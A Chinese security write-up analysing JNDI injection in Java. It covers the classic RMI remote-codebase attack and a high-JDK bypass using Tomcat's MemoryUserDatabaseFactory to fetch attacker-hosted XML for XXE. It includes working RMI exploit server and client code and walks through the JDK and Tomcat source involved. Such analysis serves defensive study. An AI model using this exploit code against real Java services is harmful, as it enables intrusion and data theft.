







# JNDI 高版本MemoryUserDatabaseFactory 利用-先知社区

> **来源**: https://xz.aliyun.com/news/16853  
> **文章ID**: 16853

---

# JNDI 高版本MemoryUserDatabaseFactory 利用

## 前言

JDNI 的高版本一直是一个很有趣的研究点，最近看到一个写文件的，感觉还是很厉害的，特此来分析分析

## JNDI 低版本利用方法和限制

### 利用

我们知道 jndi 的低版本都是依靠远程来进行利用的

比如我们 RMI

服务端代码

```
package JNDI_RMI;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RmiServerTest {
    public static void main(String[] args) throws NamingException, RemoteException, AlreadyBoundException, AlreadyBoundException, RemoteException, NamingException {
        //标识符
        String jndi_uri = "http://127.0.0.1:8081/";
        //注册中心
        Registry registry = LocateRegistry.createRegistry(10086);
        //标识符与与恶意对象关联
        Reference reference = new Reference("Exp.class", "Exp", jndi_uri);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        //将名称与恶意对象实体进行绑定注册
        registry.bind("Exp",referenceWrapper);
        System.out.println("RMI服务端已启动......");
    }
}
```

客户端代码

```
package JNDI_RMI;

import javax.naming.InitialContext;
import javax.naming.NamingException;
public class RmiClientTest {
    public static void main(String[] args) throws NamingException {
        //指定RMI服务资源的标识
        String jndi_uri = "rmi://127.0.0.1:10086/Exp";
        //构建jndi上下文环境
        InitialContext initialContext = new InitialContext();
        //查找标识关联的RMI服务
        initialContext.lookup(jndi_uri);
    }
}
```

恶意代码

就是弹计算机的典型代码

先 python 起一个服务，然后启动服务端，再启动客户端就 ok

我们直接进入关键的方法

进入 getObjectInstance 方法很长

```
getObjectInstance(Object refInfo, Name name, Context nameCtx,
                          Hashtable<?,?> environment)
        throws Exception
    {

        ObjectFactory factory;

        // Use builder if installed
        ObjectFactoryBuilder builder = getObjectFactoryBuilder();
        if (builder != null) {
            // builder must return non-null factory
            factory = builder.createObjectFactory(refInfo, environment);
            return factory.getObjectInstance(refInfo, name, nameCtx,
                environment);
        }

        // Use reference if possible
        Reference ref = null;
        if (refInfo instanceof Reference) {
            ref = (Reference) refInfo;
        } else if (refInfo instanceof Referenceable) {
            ref = ((Referenceable)(refInfo)).getReference();
        }

        Object answer;

        if (ref != null) {
            String f = ref.getFactoryClassName();
            if (f != null) {
                // if reference identifies a factory, use exclusively

                factory = getObjectFactoryFromReference(ref, f);
                if (factory != null) {
                    return factory.getObjectInstance(ref, name, nameCtx,
                                                     environment);
                }
                // No factory found, so return original refInfo.
                // Will reach this point if factory class is not in
                // class path and reference does not contain a URL for it
                return refInfo;

            } else {
                // if reference has no factory, check for addresses
                // containing URLs

                answer = processURLAddrs(ref, name, nameCtx, environment);
                if (answer != null) {
                    return answer;
                }
            }
        }
```

先判断我们的 builder，有没有为我们的地址创建过工厂类，没有进入下面的代码  
`ref = (Reference) refInfo;` 为 ref 赋值，就是我们上传传入的 refinfo  
然后为 factory 赋值进入 getObjectFactoryFromReference 方法  
重点代码部分

```
try {
             clas = helper.loadClass(factoryName);
        } catch (ClassNotFoundException e) {
            // ignore and continue
            // e.printStackTrace();
        }
        // All other exceptions are passed up.

        // Not in class path; try to use codebase
        String codebase;
        if (clas == null &&
                (codebase = ref.getFactoryClassLocation()) != null) {
            try {
                clas = helper.loadClass(factoryName, codebase);
            } catch (ClassNotFoundException e) {
            }
        }

        return (clas != null) ? (ObjectFactory) clas.newInstance() : null;
    }
```

先尝试直接在本地加载这个类，但是没有加载过，所以会抛出 ClassNotFoundException 异常  
然后尝试 `clas = helper.loadClass(factoryName, codebase);` 在我们的 codebase 去加载，我们的 codebase 是就是我们的远程的类

### 限制

在我们利用 Codebase 攻击 RMI 服务的时候，如果想要根据 Codebase 加载位于远端服务器的类时，java.rmi.server.useCodebaseOnly 的值必须为 false。但是从 JDK 6u45、7u21 开始，java.rmi.server.useCodebaseOnly 的默认值就是 true。

## 高版本利用思路

```
private Object decodeObject(Remote r, Name name) throws NamingException {
    try {
        Object obj = (r instanceof RemoteReference)
                    ? ((RemoteReference)r).getReference()
                    : (Object)r;

        /*
            * Classes may only be loaded from an arbitrary URL codebase when
            * the system property com.sun.jndi.rmi.object.trustURLCodebase
            * has been set to "true".
            */

        // Use reference if possible
        Reference ref = null;
        if (obj instanceof Reference) {
            ref = (Reference) obj;
        } else if (obj instanceof Referenceable) {
            ref = ((Referenceable)(obj)).getReference();
        }

        if (ref != null && ref.getFactoryClassLocation() != null &&
            !trustURLCodebase) {
            throw new ConfigurationException(
                "The object factory is untrusted. Set the system property" +
                " 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'.");
        }
        return NamingManager.getObjectInstance(obj, name, this,
                                                environment);
//  } catch (NamingException e) { ...
}
```

必须绕过 if 条件的判断

1、令 ref 为空，或者  
2、令 ref.getFactoryClassLocation() 为空  
3、令 trustURLCodebase 为 true

3 肯定是已经不行了

这里利用的是 2

ref.getFactoryClassLocation() 方法返回空值，这意味着 ref 对象的 classFactoryLocation 属性为空。该属性用于表示引用所指向的对象对应的工厂类名称。对于远程代码加载的情况，classFactoryLocation 存储的是代码库的 URL 地址（即远程代码的位置），这个地址可以包含多个 URL，地址之间使用空格分隔。通过这种方式，我们能够利用低版本 JDK 的漏洞。

然而，在高版本的 JDK 中，如果工厂类是本地代码，classFactoryLocation 属性将为空。正是通过这种机制，我们可以绕过高版本 JDK 的安全限制。

## MemoryUserDatabaseFactory 工厂类利用

首先看到它的 getObjectInstance 方法

```
public Object getObjectInstance(Object obj, Name name, Context nameCtx,
                                Hashtable<?,?> environment)
    throws Exception {

    // We only know how to deal with <code>javax.naming.Reference</code>s
    // that specify a class name of "org.apache.catalina.UserDatabase"
    if ((obj == null) || !(obj instanceof Reference)) {
        return (null);
    }
    Reference ref = (Reference) obj;
    if (!"org.apache.catalina.UserDatabase".equals(ref.getClassName())) {
        return (null);
    }

    // Create and configure a MemoryUserDatabase instance based on the
    // RefAddr values associated with this Reference
    MemoryUserDatabase database = new MemoryUserDatabase(name.toString());
    RefAddr ra = null;

    ra = ref.get("pathname");
    if (ra != null) {
        database.setPathname(ra.getContent().toString());
    }

    ra = ref.get("readonly");
    if (ra != null) {
        database.setReadonly(Boolean.parseBoolean(ra.getContent().toString()));
    }

    // Return the configured database instance
    database.open();
    // Don't try something we know won't work
    if (!database.getReadonly())
        database.save();
    return (database);

}
```

这里会先实例化一个 `MemoryUserDatabase` 对象然后从 Reference 中取出 pathname、readonly 这两个最主要的参数并调用 setter 方法赋值。

赋值完成会先调用`open()`方法，如果readonly=false那就会调用`save()`方法。

首先来看`open()`方法

```
public void open() throws Exception {

    synchronized (groups) {
        synchronized (users) {

            // Erase any previous groups and users
            users.clear();
            groups.clear();
            roles.clear();

            String pathName = getPathname();
            try (InputStream is = ConfigFileLoader.getInputStream(getPathname())) {
                // Construct a digester to read the XML input file
                Digester digester = new Digester();
                try {
                    digester.setFeature(
                            "http://apache.org/xml/features/allow-java-encodings", true);
                } catch (Exception e) {
                    log.warn(sm.getString("memoryUserDatabase.xmlFeatureEncoding"), e);
                }
                digester.addFactoryCreate("tomcat-users/group",
                        new MemoryGroupCreationFactory(this), true);
                digester.addFactoryCreate("tomcat-users/role",
                        new MemoryRoleCreationFactory(this), true);
                digester.addFactoryCreate("tomcat-users/user",
                        new MemoryUserCreationFactory(this), true);

                // Parse the XML input to load this database
                digester.parse(is);
            } catch (IOException ioe) {
                log.error(sm.getString("memoryUserDatabase.fileNotFound", pathName));
                return;
            }
        }
    }
}
```

[

它可以解析我们的 xml 文件

```
public Object parse(InputStream input) throws IOException, SAXException {
    this.configure();
    InputSource is = new InputSource(input);
    this.getXMLReader().parse(is);
    return this.root;
}
```

是没有任何的防护的

写一个 xml 的文件，dns 解析的

然后我们启动服务端

```
public static void main(String[] args) throws Exception {
    Registry registry = LocateRegistry.createRegistry(8888);
    ResourceRef resourceRef =XXE();
    ReferenceWrapper referenceWrapper = new ReferenceWrapper(resourceRef);
    registry.bind("XXE", referenceWrapper);
    System.out.println("Registry运行中......");
}

private static ResourceRef XXE(){
    ResourceRef ref = new ResourceRef("org.apache.catalina.UserDatabase", null, "", "",
            true, "org.apache.catalina.users.MemoryUserDatabaseFactory", null);
    ref.add(new StringRefAddr("pathname", "http://127.0.0.1:8000/1.xml"));
    return ref;
}
```

之后启动客户端

```
package JNDI_RMI;
import javax.naming.InitialContext;

public class RMI_Cilent_ByPass {
    public static void main(String[]args) throws Exception{
        String string = "rmi://localhost:8888/XXE";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(string);
    }
}


```

调用栈如下

```
open:399, MemoryUserDatabase (org.apache.catalina.users)
getObjectInstance:102, MemoryUserDatabaseFactory (org.apache.catalina.users)
getObjectInstance:321, NamingManager (javax.naming.spi)
decodeObject:464, RegistryContext (com.sun.jndi.rmi.registry)
lookup:124, RegistryContext (com.sun.jndi.rmi.registry)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:417, InitialContext (javax.naming)
main:8, RMI_Cilent_ByPass (JNDI_RMI)
```

首先在 getObjectInstance 方法中获取我们的 Reference



其中关键的是我们的地址和工厂类的名称



```
if (ref != null) {
String f = ref.getFactoryClassName();
if (f != null) {
    // if reference identifies a factory, use exclusively

    factory = getObjectFactoryFromReference(ref, f);
    if (factory != null) {
        return factory.getObjectInstance(ref, name, nameCtx,
                                         environment);
    }
```

在这获取名称后根据 getObjectFactoryFromReference 方法去加载

```
static ObjectFactory getObjectFactoryFromReference(
    Reference ref, String factoryName)
    throws IllegalAccessException,
    InstantiationException,
    MalformedURLException {
    Class<?> clas = null;

    // Try to use current class loader
    try {
         clas = helper.loadClass(factoryName);
    } catch (ClassNotFoundException e) {
        // ignore and continue
        // e.printStackTrace();
    }
    // All other exceptions are passed up.

    // Not in class path; try to use codebase
    String codebase;
    if (clas == null &&
            (codebase = ref.getFactoryClassLocation()) != null) {
        try {
            clas = helper.loadClass(factoryName, codebase);
        } catch (ClassNotFoundException e) {
        }
    }

    return (clas != null) ? (ObjectFactory) clas.newInstance() : null;
}
```



在第一步就已经加载好了，也不需要使用到codebase

然后来到 org.apache.catalina.users.MemoryUserDatabaseFactory 的 getObjectInstance 方法

```
public Object getObjectInstance(Object obj, Name name, Context nameCtx,
                                Hashtable<?,?> environment)
    throws Exception {

    // We only know how to deal with <code>javax.naming.Reference</code>s
    // that specify a class name of "org.apache.catalina.UserDatabase"
    if ((obj == null) || !(obj instanceof Reference)) {
        return (null);
    }
    Reference ref = (Reference) obj;
    if (!"org.apache.catalina.UserDatabase".equals(ref.getClassName())) {
        return (null);
    }

    // Create and configure a MemoryUserDatabase instance based on the
    // RefAddr values associated with this Reference
    MemoryUserDatabase database = new MemoryUserDatabase(name.toString());
    RefAddr ra = null;

    ra = ref.get("pathname");
    if (ra != null) {
        database.setPathname(ra.getContent().toString());
    }

    ra = ref.get("readonly");
    if (ra != null) {
        database.setReadonly(Boolean.parseBoolean(ra.getContent().toString()));
    }

    // Return the configured database instance
    database.open();
    // Don't try something we know won't work
    if (!database.getReadonly())
        database.save();
    return (database);

}
```

database 存储了我们的信息  
  
进入 open

```
public void open() throws Exception {

    synchronized (groups) {
        synchronized (users) {

            // Erase any previous groups and users
            users.clear();
            groups.clear();
            roles.clear();

            String pathName = getPathname();
            try (InputStream is = ConfigFileLoader.getInputStream(getPathname())) {
                // Construct a digester to read the XML input file
                Digester digester = new Digester();
                try {
                    digester.setFeature(
                            "http://apache.org/xml/features/allow-java-encodings", true);
                } catch (Exception e) {
                    log.warn(sm.getString("memoryUserDatabase.xmlFeatureEncoding"), e);
                }
                digester.addFactoryCreate("tomcat-users/group",
                        new MemoryGroupCreationFactory(this), true);
                digester.addFactoryCreate("tomcat-users/role",
                        new MemoryRoleCreationFactory(this), true);
                digester.addFactoryCreate("tomcat-users/user",
                        new MemoryUserCreationFactory(this), true);

                // Parse the XML input to load this database
                digester.parse(is);
            } catch (IOException ioe) {
                log.error(sm.getString("memoryUserDatabase.fileNotFound", pathName));
                return;
            }
        }
    }
}
```

然后就是获取我们的文件内容去解析了





参考<https://www.cnblogs.com/bitterz/p/15946406.html#221-xxe>
